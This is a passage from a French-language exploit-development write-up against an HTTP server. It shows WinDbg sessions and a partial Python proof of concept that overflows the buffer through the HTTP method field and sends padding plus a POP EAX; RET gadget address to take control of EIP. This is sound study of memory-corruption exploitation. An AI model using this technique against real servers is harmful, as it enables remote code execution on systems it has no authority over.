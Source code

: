 ```powershell
0:012> bp 0x00418674
#
0:012> g
00418674 58              pop     eax
#
0:005> t
00418675 c3              ret
#
0:005> dc poi(@esp)
046eea84  00544547 00000000 00000000 00000000  GET.............
046eea94  00000000 00000000 4141412f 41414141  ......../AAAAAAA
046eeaa4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
[...]
```

On observe qu'il y a un padding important entre `GET` et le reste du buffer. On peut supposer que :
- Le buffer utilise pour stocker la méthode HTTP semble avoir été alloué avec une taille fixe
- La taille de la méthode en elle-même ne semble pas être prise en compte ni vérifiée
    * Si elle n'est pas vérifiée, on peut essayer de la remplacer avec des opcodes d'instructions ASM qui permettraient d'atteindre nos `0x41`

Mise à jour de la preuve de concept :

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 260

  httpMethod = b"\x43\x43\x43\x43\x43\x43\x43\x43" + b" /"
  inputBuffer = b"\x41" * 253
  inputBuffer += pack("<L", (0x418674)) # 0x00418674 : POP EAX ; RET -> EIP
  httpEndRequest = b"\r\n\r\n"
```

Exécution de la preuve de concept et positionnement d'un point d'arrêt sur l'adresse où se trouve la série d'instructions `POP EAX;RET` :

```powershell
0:009> bp 0x00418674
#
0:009> g
Breakpoint 0 hit
eax=00000000
[...]
00418674 58              pop     eax
#
0:004> t
eax=0464fe70
[...]
00418675 c3              ret
#
0:004> dc poi(@esp)
0464ea84  43434343 43434343 00000000 00000000  CCCCCCCC........
0464ea94  00000000 00000000 4141412f 41414141  ......../AAAAAAA
0464eaa4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
[...]
```
